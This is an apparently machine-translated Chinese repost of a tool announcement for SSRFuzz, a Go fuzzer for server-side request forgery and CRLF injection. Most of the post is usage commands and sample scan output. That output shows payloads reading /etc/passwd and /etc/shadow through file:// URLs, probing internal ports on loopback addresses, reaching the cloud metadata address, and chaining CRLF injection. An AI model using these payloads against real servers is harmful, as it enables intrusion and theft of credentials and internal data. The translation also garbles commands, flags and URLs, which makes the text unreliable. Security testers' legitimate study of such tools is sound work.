

# SSRFuzz:一个发现服务器端请求伪造漏洞的工具，具有 CRLF 链接功能

> 原文：<https://kalilinuxtutorials.com/ssrfuzz/>

**SSRFuzz** 是一个发现服务器端请求伪造漏洞的工具，具有 CRLF 链接功能。

**为什么？**

*   我想用 Golang 编写一个并发工具
*   我想模糊 SSRF 漏洞的参数，以及模糊 CRLF 注入的路径和参数
*   我受到了 Orange 将这些类型的漏洞链接在一起的工作的启发([https://blog.orange.tw](https://blog.orange.tw))

**安装**

对 intsall 运行以下命令

**去 get-u github . com/ryandamour/SSR fuzz**

**用途**

**用法:**
ssrfuzz scan【Flags】
**Flags:**
-b，–call-back string Add callback for SSRF fuzzing(即:https://github . com/ROP nop/server less _ toolkit/tree/master/ssrf _ slack)
-c，–Cookie string Cookie to use for requests
–crlf-path 将 crlf 有效载荷添加到所有可用路径(即:site.com/%0Atest.php)
–delay int 每个线程在请求之间等待的时间(以毫秒计 –HTTP-Method string HTTP Method–GET 或 POST(默认“GET”)
-o，–输出字符串保存结果的位置
–Skip-crlf 跳过 crlf 模糊
–Skip-network 跳过网络模糊
–Skip-scheme 跳过方案模糊
-s，–Slack-web hook string Slack web hook 将结果发送到通道
-t，–threads int 运行 ssrfuzz 的线程数(默认为 50)
–time out int Linux x86 _ 64)apple WebKit/537.36(KHTML，像 Gecko)Chrome/81 . 0 . 4044 . 138 Safari/537.36 ")
-v，–verbose 详细输出

**用法:
echo " http://URL _ to _ fuzz " | ssrfuzz scan
cat file _ of _ domains . txt | ssrfuzz scan
ssrfuzz scan-d file _ of _ domains . txt**

*扫描 http 和 scheme 有效负载 w/crlf:

echo " http://192 . 168 . 1 . 10/test . PHP？u=" | go run main.go scan
[！]方案有效载荷匹配:

* http://192 . 168 . 1 . 10/test . PHP？u=file://etc/passwd 200
[！]发现有趣的有效载荷
* http://192 . 168 . 1 . 10/test . PHP？u = http://127 . 1 . 0 . 0:80 200
* http://192 . 168 . 1 . 10/test . PHP？u = http://127 . 1 . 0 . 0:8080 500
* http://192 . 168 . 1 . 10/test . PHP？u = http://127 . 1 . 0 . 0:443 500
* http://192 . 168 . 1 . 10 test . PHP？u = http://127 . 1 . 0 . 0:22 500
* http://192 . 168 . 1 . 10/test . ph？u = http://127 . 1 . 0 . 0:25 500
* http://192 . 168 . 1 . 10/test . PHP？u = http://127 . 1 . 0 . 0:445 500
[！]发现有趣的有效载荷
* http://192 . 168 . 1 . 10/test . PHP？u = http://127 . 127 . 127 . 127:80% 23% OA 200
* http://192 . 168 . 1 . 10/test . PHP？u = http://127 . 127 . 127 . 127:80% 23% OA 200
* http://192 . 168 . 1 . 10/test . PHP？u = http://127 . 127 . 127 . 127:8080% 23% OA 500
* http://192 . 168 . 1 . 10/test . PHP？u = http://127 . 127 . 127 . 127:8080% 23% OA 500

*仅扫描 http 有效负载 w/crlf:

echo " http://192 . 168 . 1 . 10/test . PHP？u = " | go run main . go scan–skip-scheme

[！]找到了有趣的有效载荷
* http://192 . 168 . 1 . 10/test . PHP？u = http://127 . 127 . 127 . 127:80% 23% OA 200
* http://192 . 168 . 1 . 10/test . PHP？u = http://127 . 127 . 127 . 127:80% 23% OA 200
* http://192 . 168 . 1 . 10/test . PHP？u = http://127 . 127 . 127 . 127:8080% 23% OA 500
* http://192 . 168 . 1 . 10/test . PHP？u = http://127 . 127 . 127 . 127:8080% 23% OA 500
* http://192 . 168 . 1 . 10/test . PHP？u = http://127 . 127 . 127 . 127:443% 23% OA 500
* http://192 . 168 . 1 . 10/test . PHP？u = http://127 . 127 . 127 . 127:443% 23% OA 500
* http://192 . 168 . 1 . 10/test . PHP？u = http://127 . 127 . 127 . 127:25% 23% OA 500
* http://192 . 168 . 1 . 10/test . PHP？u = http://127 . 127 . 127 . 127:25% 23% OA 500
* http://192 . 168 . 1 . 10/test . PHP？u = http://127 . 127 . 127 . 127:22% 23% OA 500
* http://192 . 168 . 1 . 10/test . PHP？u = http://127 . 127 . 127 . 127:22% 23% OA 500
* http://192 . 168 . 1 . 10/test . PHP？u = http://127 . 127 . 127 . 127:445% 23% OA 500
* http://192 . 168 . 1 . 10/test . PHP？u = http://127 . 127 . 127 . 127:445% 23% OA 500

*仅扫描不带 crlf 的 http 有效负载:

echo " http://192 . 168 . 1 . 10/test . PHP？u = " | go run main . go scan–skip-scheme–skip-crlf
[！]发现有趣的有效载荷
* http://192 . 168 . 1 . 10/test . PHP？u = http://127 . 1 . 0 . 0:80 200
* http://192 . 168 . 1 . 10/test . PHP？u = http://127 . 1 . 0 . 0:8080 500
* http://192 . 168 . 1 . 10/test . PHP？u = http://127 . 1 . 0 . 0:443 500
* http://192 . 168 . 1 . 10/test . PHP？u = http://127 . 1 . 0 . 0:22 500
* http://192 . 168 . 1 . 10/test . PHP？u = http://127 . 1 . 0 . 0:25 500
* http://192 . 168 . 1 . 10/test . PHP？u=http://127.1.0.0:445 500

*仅扫描不带 crlf 的方案有效负载:

echo " http://192 . 168 . 1 . 10/test . PHP？u = " | go run main . go scan–skip-network–skip-crlf

【！]发现有趣的有效载荷
* http://192 . 168 . 1 . 10/test . PHP？u = file:///etc/passwd 200
* http://192 . 168 . 1 . 10/test . PHP？u = file:///etc/shadow 500
* http://192 . 168 . 1 . 10/test . PHP？u =文件://169.254.169.254/ 500

[**Download**](https://github.com/ryandamour/ssrfuzz)